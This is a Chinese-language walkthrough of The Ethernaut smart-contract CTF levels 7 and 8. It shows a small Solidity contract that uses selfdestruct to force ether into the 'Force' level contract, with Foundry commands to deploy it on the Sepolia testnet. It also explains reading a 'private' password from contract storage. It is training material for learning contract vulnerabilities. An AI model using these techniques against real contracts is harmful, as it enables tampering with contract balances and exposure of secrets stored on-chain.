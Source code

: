 
## lelve 7

[The Ethernaut level 7](https://ethernaut.openzeppelin.com/level/7)

这一关的要求是增加 `Forece` 合约的 ether 余额

`Force` 合约没有任何函数，要想向该合约发送 ether，普通转账是不行的。需要使用一些特殊的方法。以下是几种可能的方式：
1. 自毁方法（`selfdestruct`）：这是最常见的强制发送以太币到一个没有接收函数的合约的方法。
2. 预部署合约：使用 `CREATE2` 操作码预先计算出合约的地址，并在合约部署之前向该地址发送 ether。

由于合约不是自己部署，因此采用第一种方式。

示例代码：
```
contract Attacker {
    constructor() {}

    function attack(address receiver) public payable {
        selfdestruct(payable(receiver));
    }

    receive() external payable {}
}
```
完整代码见：[Attacker](ethernaut/script/level07/Attacker.s.sol)

使用Foundry：

调用脚本部署 `Attacker` 合约并且发动 `attack`：
```
forge script script/level07/Attacker.s.sol:CallContractScript --rpc-url sepolia --broadcast

```

查询 ether 余额
```
cast balance 0xd2E4Ba00684F3d61D585ca344ec566e03FA06F47 --rpc-url sepolia
```

链上记录：
- [level(`Force`) 实例](https://sepolia.etherscan.io/address/0xd2E4Ba00684F3d61D585ca344ec566e03FA06F47)
- [自毁并发送 ether 交易](https://sepolia.etherscan.io/tx/0xbc33047553c932bba41adb3e45c83940e7a5c5df4343a08121851c3bee357a7c)


## lelve 8

[The Ethernaut level 8](https://ethernaut.openzeppelin.com/level/8)

这一关的要求是反转 `Vault` 的 `locked` 状态

`Vault` 合约提供了 `unlock` 函数，只需要提供对应的密码。虽然在合约中密码字段设置为 `private`，无法通过公开的方法访问。但是区块链上的状态变量是公开的，可以通过读取合约的存储插槽读区的值。  
`Vault` 合约中 `password` 状态变量占用插槽1，可以通过 foundry 读取该插槽的值。
